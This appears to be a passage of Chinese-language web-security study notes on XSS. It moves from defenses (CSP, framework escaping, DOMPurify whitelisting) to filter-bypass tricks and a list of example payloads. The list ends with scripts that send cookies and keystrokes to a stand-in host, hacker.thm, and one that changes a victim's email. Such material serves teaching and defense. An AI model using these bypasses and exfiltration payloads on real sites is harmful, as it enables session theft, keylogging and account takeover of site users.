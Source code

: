 4.  **内容安全策略 (Content Security Policy - CSP):**
    *   通过HTTP头 (`Content-Security-Policy`) 定义浏览器可以加载和执行资源的策略（如限制脚本来源、禁止内联脚本和 `eval`）。可以有效缓解XSS攻击。

5.  **使用安全的框架和库:**
    *   现代Web框架（如React, Angular, Vue, Django, Rails）通常内置了XSS防护机制（如自动HTML编码）。正确使用框架是重要的防御措施。

6.  **富文本处理 (Whitelist Filtering):**
    *   如果需要允许用户输入部分HTML（富文本编辑器），不能简单编码。应使用强大的HTML过滤库（如 `DOMPurify` [JS], `HTML Purifier` [PHP]），基于白名单过滤掉所有危险的标签和属性。

## XSS 绕过技巧

当目标网站存在基础防御时，攻击者可能尝试以下方法绕过：

1.  **前端长度限制:**
    *   **绕过:** 使用代理工具（如 Burp Suite）抓包修改请求，移除或增大 `maxlength` 限制。
2.  **关键字过滤/替换:**
    *   **大小写混合:** `<ScRiPt>alert(1)</sCrIpT>`
    *   **双写/拼凑:** `<scr<script>ipt>alert(1)</scr<script>ipt>` (如果只替换一次)
    *   **使用注释干扰:** `<scr<!-- comment -->ipt>alert(1)</script>` (可能干扰简单正则)
    *   **编码绕过:**
        *   URL 编码: `%3Cscript%3Ealert(1)%3C/script%3E`
        *   HTML 实体编码 (十进制/十六进制): `<img src=x onerror="alert(1)">` (`alert(1)`)
        *   JavaScript Unicode 编码: `javascript:\u0061\u006c\u0065\u0072\u0074(1)` (`alert`)
        *   混合/多次编码: 结合多种编码方式。
    *   **Tab/换行符等空白字符:** `<script	>alert(1)</script>`
3.  **`htmlspecialchars` 绕过:**
    *   **默认不转义单引号:** 如果输出在单引号包裹的属性中，如 `value='...'`，可注入 `q' onclick='alert(1)'` 变为 `value='q' onclick='alert(1)'`。
    *   **利用事件处理器:** ` ' onmouseover=alert(1) `
4.  **输出在 `<a>` 标签 `href` 属性中:**
    *   **`javascript:` 伪协议:** `<a href="javascript:alert(1)">Click Me</a>` (现代浏览器多有防护)
    *   **数据URI:** `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">` (Base64编码的`<script>alert(1)</script>`)
5.  **输出在 JavaScript 代码中:**
    *   **闭合引号和语句:** 如果输出在JS字符串变量中 `var x = '...';`，注入 `';alert(1);//` 变为 `var x = '';alert(1);//';`。
    *   **闭合 `<script>` 标签:** 如果输出直接在 `<script>` 块内，注入 `</script><script>alert(1)</script>`。
6.  **标签绕过 (利用不同解析模式):**
    *   **`<svg>` 标签:** `<svg onload=alert(1)>` (SVG内允许脚本执行)
    *   **`<details>` 标签:** `<details open ontoggle=alert(1)>`
    *   **利用XML解析:** 在某些上下文中（如SVG内），HTML实体可能被解码执行。

### XSS 攻击 Payload 示例 (常见)

*   `<script>alert('XSS')</script>`
*   `<img src=x onerror=alert('XSS')>`
*   `<svg onload=alert('XSS')>`
*   `<body onload=alert('XSS')>` (如果能控制body标签)
*   `<iframe src="javascript:alert('XSS');"></iframe>`
*   `<a href="javascript:alert('XSS')">Click Me</a>`
*   `<div onmouseover="alert('XSS')">Hover Me</div>`
*   `<video src=x onerror=alert('XSS')></video>`
*   `<audio src=x onerror=alert('XSS')></audio>`
*   `<details open ontoggle=alert('XSS')>`
*   `<style onload=alert('XSS')></style>` (旧浏览器/特定场景)
*   `<object data="javascript:alert('XSS')"></object>`
*   `<embed src="javascript:alert('XSS')"></embed>`
*   `<form action="javascript:alert('XSS')"><input type=submit></form>`
*   `<math><a xlink:href="javascript:alert('XSS')">Click</a></math>`
*   `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
*   `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
*   `<script>user.changeEmail('attacker@hacker.thm');</script>`
